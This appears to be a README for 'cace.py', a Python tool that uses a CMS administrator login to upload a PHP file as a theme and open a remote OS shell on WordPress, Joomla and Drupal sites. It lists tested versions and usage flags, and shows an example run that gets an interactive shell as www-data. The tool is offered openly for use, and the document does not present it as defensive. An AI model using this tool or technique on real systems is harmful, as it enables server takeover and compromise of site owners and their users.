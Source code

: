 CMS Admin Command Execution

Trying to execute php code via admin panel.

Requirement:
Python 2.7
Python Requests lib (http://docs.python-requests.org/en/latest/)

Tested on:
Wordpress 4.1.1(latest); 3.9.3; 3.8; 3.7; 3.5; 3.4; 3.0; 2.7
Joomla 3.4.1(latest); 2.5.28; 1.5.26
Drupal 7.36(latest stable)

usage: cace.py [-h] -c CMS -u URL -l LOGIN -p PWD

CMS Admin Command Execution

optional arguments:
  -h, --help            show this help message and exit
  -c CMS, --cms CMS     1 - Wordpress >= 2.7; 2 - Joomla; 3 - Drupal 7.*
  -u URL, --url URL     Url to CMS folder, example http://1.2.3.4/blog/
  -l LOGIN, --login LOGIN
                        Administrator login
  -p PWD, --pwd PWD     Administrator password
  
Example:
  
test@ubuntu:~$ python cace.py -c 1 -u http://127.0.0.1/wp35/ -l admin -p admin
[*] Trying to get upload form token for WP >= 3.9.
[-] Failed to get token for WP >= 3.9.
[*] Trying to get upload form token for WP <= 3.8.5.
[*] Uploading php file as theme.
[*] Trying to get os-shell.
os-shell>id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
os-shell>uname -a
Linux ubuntu 3.16.0-33-generic #44~14.04.1-Ubuntu SMP Fri Mar 13 10:33:29 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
os-shell>exit

  
